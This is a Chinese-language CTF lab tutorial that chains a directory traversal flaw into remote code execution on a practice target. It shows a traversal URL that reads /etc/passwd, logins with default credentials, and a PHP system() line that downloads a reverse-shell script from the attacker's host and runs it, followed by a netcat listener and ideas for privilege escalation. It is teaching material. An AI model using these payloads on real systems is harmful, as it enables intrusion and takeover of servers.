










# CTF夺旗全套视频教程-网络安全：P13：目录遍历漏洞利用实战 🚩

在本节课中，我们将学习Web安全中的目录遍历漏洞。我们将通过利用此漏洞，最终获取目标主机的root权限并取得flag值。

## 目录遍历漏洞简介

上一节我们介绍了课程目标，本节中我们来了解一下目录遍历漏洞本身。


目录遍历漏洞，也称为路径遍历攻击。其核心目的是访问存储在Web根目录之外的文件和目录。攻击者通过操纵带有“点-斜线”（`../`）序列或其变体的变量，或使用绝对文件路径来引用文件，从而能够访问文件系统上的任意文件和目录。这包括应用程序源代码、配置文件以及关键的系统文件。



**核心概念公式**：`攻击者可控的输入` + `未经过滤的路径拼接` = `目录遍历漏洞`



需要注意的是，系统级别的访问控制（例如在Windows操作系统上锁定文件）会限制对文件的访问。如果文件权限设置为不可读，则无法通过目录遍历漏洞查看其内容。

目录遍历漏洞也被称为点斜线目录遍历、目录爬升或回溯攻击。


## 实验环境搭建 🖥️



在开始实战之前，我们需要明确实验环境。

*   **攻击机**：Kali Linux，IP地址为 `192.168.1.106`。
*   **靶机**：一台Linux系统，IP地址为 `192.168.1.104`。

我们的最终目标是获取靶机的root权限并读取flag。所有后续操作都将围绕此目标展开。

## 信息收集与探测 🔍

我们已经获得了靶机的IP地址，接下来需要对靶机进行信息探测，以发现潜在的攻击面。

以下是信息收集的核心步骤：

首先，我们需要扫描靶机开放的服务及其版本信息。这里我们使用 `nmap` 工具。



```bash
nmap -sV 192.168.1.104
```
此命令将对目标进行端口扫描和服务版本探测。

除了服务信息，我们还可以对靶机进行更全面的探测。

接下来，我们使用 `nmap` 进行更深入的全方位扫描。



```bash
nmap -T4 -A -v 192.168.1.104
```
参数说明：
*   `-T4`：设置扫描速度为最快。
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：显示详细输出。

如果扫描结果显示靶机开放了HTTP服务（如80端口），我们就可以使用专门工具对其进行深入探测。

我们可以使用 `nikto` 对Web服务进行漏洞扫描。

```bash
nikto -h http://192.168.1.104
```
此命令将对指定URL进行常见的Web漏洞扫描。

同时，我们还可以使用 `dirb` 工具来枚举Web目录和文件。

```bash
dirb http://192.168.1.104
```
`dirb` 会使用内置字典尝试发现靶站上隐藏的目录和文件。

在信息收集阶段，分析扫描结果至关重要。我们需要从 `nmap`、`nikto` 和 `dirb` 的输出中挖掘可利用的信息。

例如，`dirb` 扫描可能发现 `/dbadmin` 这样的敏感目录。通过浏览器访问该目录，我们可能找到类似 `testDB.php` 的数据库管理页面，这通常是一个潜在的突破口。

## 漏洞扫描与确认 🎯

在收集了基本信息后，我们可以使用自动化漏洞扫描器来发现更具体的漏洞。

我们将使用 OWASP ZAP 这款Web漏洞扫描器对目标站点进行扫描。

1.  在Kali终端中启动ZAP：`zap`。
2.  在ZAP界面中输入靶站地址 `http://192.168.1.104` 并开始攻击扫描。

扫描结束后，ZAP会列出发现的漏洞。高危漏洞通常用红色标记。在本案例中，扫描器报告了一个**目录遍历漏洞**。

漏洞详情显示，访问特定的URL（例如包含 `../../../../etc/passwd` 的请求）可以读取服务器的 `/etc/passwd` 文件内容。这直接证实了目录遍历漏洞的存在。

我们可以在浏览器中尝试访问该URL进行验证：
`http://192.168.1.104/vulnerable.php?file=../../../../etc/passwd`

如果成功返回 `/etc/passwd` 文件的内容，则漏洞利用成功。我们也可以尝试读取其他文件，如 `/etc/shadow`（但通常需要root权限）。

## 漏洞利用：获取WebShell 🐚

确认漏洞后，下一步是思考如何利用它来获取系统权限（Shell）。

以下是我们的攻击思路：
1.  找到一个可以上传或写入文件的地方（例如之前发现的数据库管理后台）。
2.  上传一个用PHP编写的WebShell到服务器。
3.  通过目录遍历漏洞访问这个WebShell文件。
4.  WebShell代码中包含反弹Shell的命令，使其连接回我们攻击机上监听的端口。
5.  在攻击机上获得一个反向Shell连接。

首先，我们需要进入之前发现的数据库管理后台（如 `testDB.php`）。尝试使用常见弱口令（如用户名 `admin`，密码 `admin` 或 `123456`）进行登录。

登录成功后，寻找可以写入数据的地方。一个巧妙的思路是：创建一个名为 `shell.php` 的数据库，并在某个数据表中插入一条记录，该记录的值是一段PHP代码。当通过目录遍历访问这个数据库文件时，服务器可能会将其作为PHP文件解析。

我们需要准备一个PHP反弹Shell脚本。Kali系统内置了一些WebShell模板。

1.  定位并复制一个PHP反弹Shell脚本到桌面：
    ```bash
    cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop/
    cd ~/Desktop
    ```
2.  编辑这个PHP文件，修改其中的IP和端口为攻击机的信息：
    ```bash
    nano php-reverse-shell.php
    ```
    找到 `$ip` 和 `$port` 变量，将其改为攻击机IP（`192.168.1.106`）和监听端口（例如 `4444`）。保存文件。

接下来，在数据库管理页面中：
1.  创建一个名为 `shell.php` 的数据库。
2.  在该数据库中创建一张表，例如表名为 `cmd`。
3.  添加一个字段（如 `exec`），其类型为 `TEXT`。
4.  在该字段中插入我们精心构造的PHP代码。这段代码的功能是：从攻击机的HTTP服务器下载真正的WebShell文件并执行。
    示例PHP代码：
    ```php
    <?php system(“cd /tmp; wget http://192.168.1.106:8000/php-reverse-shell.php; chmod +x php-reverse-shell.php; php php-reverse-shell.php”); ?>
    ```

现在，我们需要在攻击机上做两件事：
1.  启动一个简单的HTTP服务器，让靶机能够下载我们的WebShell文件：
    ```bash
    cd ~/Desktop
    python3 -m http.server 8000
    ```
2.  打开另一个终端，启动一个Netcat监听器，等待反弹Shell连接：
    ```bash
    nc -nlvp 4444
    ```

最后，触发漏洞。通过目录遍历漏洞，访问数据库文件对应的路径（例如 `http://192.168.1.104/dbadmin/user_database/shell.php`）。如果一切顺利，数据库文件会被当作PHP执行，其中的代码会下载并运行反弹Shell脚本。此时，Netcat监听终端将会收到一个来自靶机的Shell连接。





## 权限提升思路 💡

通常，通过Web漏洞获取的初始Shell权限较低（例如 `www-data` 用户）。我们需要将其提升为 `root` 权限。



首先，改善Shell的交互性：
```bash
python -c ‘import pty; pty.spawn(“/bin/bash”)’
```



关于提权，本节课提供了两个主要思路：
1.  **利用目录遍历读取敏感文件**：通过漏洞读取 `/etc/passwd` 和 `/etc/shadow` 文件。将它们组合，使用 `unshadow` 工具生成可用于 `john` 密码破解工具的文件格式，然后尝试破解用户密码。如果破解出某个用户的密码，可能用于SSH登录或切换用户。
2.  **利用系统任务提权**：检查系统定时任务文件 `/etc/crontab`，查看是否有以root权限运行且当前用户可写的脚本或任务。如果有，可以修改该脚本，使其执行我们的提权命令。

## 总结 📝

本节课中我们一起学习了目录遍历漏洞的完整利用链。

我们首先介绍了目录遍历漏洞的原理。然后，通过 `nmap`、`dirb`、`nikto` 以及 OWASP ZAP 进行信息收集和漏洞扫描，确认了漏洞的存在。接着，我们利用数据库管理后台的上传点，结合目录遍历漏洞，成功上传并执行了WebShell，获得了反向连接。最后，我们探讨了从低权限Shell提升到root权限的几种思路。



核心流程可以概括为：**信息收集 → 漏洞发现 → 漏洞利用（上传WebShell） → 获取初始访问 → 权限提升**。掌握这个流程对于CTF比赛和实际的网络安全评估都至关重要。